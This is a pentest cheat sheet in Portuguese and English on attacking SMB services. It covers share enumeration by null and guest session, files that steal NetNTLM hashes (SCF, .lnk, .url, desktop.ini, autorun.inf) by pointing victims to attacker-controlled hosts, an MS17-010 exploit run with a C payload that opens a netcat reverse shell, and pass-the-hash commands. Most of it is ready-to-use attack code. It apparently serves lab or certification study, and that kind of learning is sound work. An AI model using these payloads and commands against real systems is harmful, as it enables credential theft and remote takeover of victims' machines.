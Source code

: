 SMB
========================

OBS: Para que comporte todos as versões de protocolo, temos que informar o seguinte no arquivo de configuração:

    [global]

    #### Kali configuration (use kali-tweaks to change it) ####

    # By default a Kali system should be configured for wide compatibility,
    # to easily interact with servers using old vulnerable protocols.
       #client min protocol = LANMAN1
       client min protocol = CORE
       client max protocol = SMB3

    ## Browsing/Identification ###
    #   force user = acosta

    # Change this to the workgroup/NT-domain name your Samba server will part of
    #   workgroup = REDECORP

## Null session and guest

### smbmap

null session

    smbmap -H 10.11.1.227 -u '' -p ''

user guest

    smbmap -H 10.11.1.227 -u guest -p ''
    
### smbclient

    smbclient -L 10.11.1.227 -U 'workgroup/guest'
    <ENTER>
    smbclient -U 'workgroup/guest' //10.11.1.227/share
    <ENTER>

Para conseguir fazer enunmeração mais rapidamente, é interessante que utilizemos o recurso de recursividade no smbclient com os seguintes comandos:

    recurse on
    dir

Desta forma, basta exxecutar esses dois comandos para ele fazer a busca via dir recursivamente

### Crackmapexec

    crackmapexec smb <hostname> -u '' -p '' --shares
    
    crackmapexec smb <hostname> -u 'guest' -p '' --shares
    


## Obtain NTLM hashes (write access)

source https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/

### SCF files

    [Shell]
    Command=2
    IconFile=\\10.10.14.4\smb\uwu.ico
    [Taskbar]
    Command=ToggleDesktop

    sudo responder -I tun0

### Internet Shortcuts (.url)

Another shortcut in Windows is the Internet shortcuts. You can save this as something.url

    echo [InternetShortcut] > stealMyHashes.url 
    echo URL=file://192.168.0.1/@OsandaMalith >> stealMyHashes.url

### Shortcut Files (.lnk)

We can create a shortcut containing our network path and as you as you open the shortcut Windows will try to resolve the network path. You can also specify a keyboard shortcut to trigger the shortcut. For the icon you can give the name of a Windows binary or choose an icon from either shell32.dll, Ieframe.dll, imageres.dll, pnidui.dll or wmploc.dll located in the system32 directory.
```
[code language=”vb”]
Set shl = CreateObject(&quot;WScript.Shell&quot;)
Set fso = CreateObject(&quot;Scripting.FileSystemObject&quot;)
currentFolder = shl.CurrentDirectory

Set sc = shl.CreateShortcut(fso.BuildPath(currentFolder, &quot;\StealMyHashes.lnk&quot;))

sc.TargetPath = &quot;\\35.164.153.224\@OsandaMalith&quot;
sc.WindowStyle = 1
sc.HotKey = &quot;Ctrl+Alt+O&quot;
sc.IconLocation = &quot;%windir%\system32\shell32.dll, 3&quot;
sc.Description = &quot;I will Steal your Hashes&quot;
sc.Save
[/code]

The Powershell version.
[code language=”powershell”]
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut(&quot;StealMyHashes.lnk&quot;)
$lnk.TargetPath = &quot;\\35.164.153.224\@OsandaMalith&quot;
$lnk.WindowStyle = 1
$lnk.IconLocation = &quot;%windir%\system32\shell32.dll, 3&quot;
$lnk.Description = &quot;I will Steal your Hashes&quot;
$lnk.HotKey = &quot;Ctrl+Alt+O&quot;
$lnk.Save()
[/code]
```
### Windows Script Files

Save this as something.wsf.

```
[code language=”xml”]
&lt;package&gt;
&lt;job id=&quot;boom&quot;&gt;
&lt;script language=&quot;VBScript&quot;&gt;
Set fso = CreateObject(&quot;Scripting.FileSystemObject&quot;)
Set file = fso.OpenTextFile(&quot;//192.168.0.100/aa&quot;, 1)
&lt;/script&gt;
&lt;/job&gt;
&lt;/package&gt;
[/code]
```

### Desktop.ini

The desktop.ini files contain the information of the icons you have applied to the folder. We can abuse this to resolve a network path. Once you open the folder you should get the hashes.

    mkdir openMe
    attrib +s openMe
    cd openMe
    echo [.ShellClassInfo] > desktop.ini
    echo IconResource=\\192.168.0.1\aa >> desktop.ini
    attrib +s +h desktop.ini


In Windows XP systems the desktop.ini file uses ‘IcondFile’ instead of ‘IconResource’.

    [.ShellClassInfo]
    IconFile=\\192.168.0.1\aa
    IconIndex=1337

### Autorun.inf

Starting from Windows 7 this feature is disabled. However you can enable by changing the group policy for Autorun. Make sure to hide the Autorun.inf file to work.

    [autorun]
    open=\\35.164.153.224\setup.exe
    icon=something.ico
    action=open Setup.exe

## ms17-010

    tools
    cd cve/2017-0143/impacket
    source exploit_ms17-010/bin/activate

Nesse momento já temos o ambiente preparado para execução do script, mas temos que preparar o paylolad pra funcionar:

    #include<stdlib.h>
    
    int main() {
    
            int i;
            i = system("START /B \\\\192.168.119.156\\smb\\nc.exe 192.168.119.156 80 -e cmd");
            return 0;
    }
Adequar este payload toda vez que for utilizá-lo

    i686-w64-mingw32-gcc backup.c -o backup.exe
    
    impacket-smbserver -smb2support smb /usr/share/windows-binaries
    nc -nlvp 80
    python ../impacket/send_and_execute.py 10.11.1.227 ../payload/backup.exe
    

## psexec


## Pass the hash

Impacket and evil-winrm

```
evil-winrm -i <hostname> -u user -H lmhash:nthash
impacket-psexec user@<hostname> -hashes lmhash:nthash
impacket-smbexec user@<hostname> -hashes lmhash:nthash
impacket-wmiexec user@<hostname> -hashes lmhash:nthash
```
